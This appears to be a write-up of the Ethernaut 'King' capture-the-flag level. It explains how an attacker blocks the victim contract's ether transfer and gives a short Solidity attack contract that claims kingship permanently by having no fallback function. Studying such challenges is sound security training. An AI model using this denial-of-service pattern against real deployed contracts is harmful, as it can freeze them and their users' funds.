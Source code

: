 # Level 9: [King](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

## Level objectives:
1. Send ether to become king.
2. Prevent re-claim during submission.

## Analysis
- On submission, the owner will try to reclaim the contract using the receive() function.
- If the require passes, the owner will become the king.
- Before the owner becomes king, the previous king is transferred some ether.
- We get the .transfer function stuck by not defining a fallback function in our contract.

## Steps:

```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.6;

contract AttackKing {
    King _victim = King(0xe22db7D56C1A88C98d4551dc9eD8e96A5729cb0c);
    constructor() public payable{
        address(_victim).call{value: _victim.prize()}("");
    }
}
```
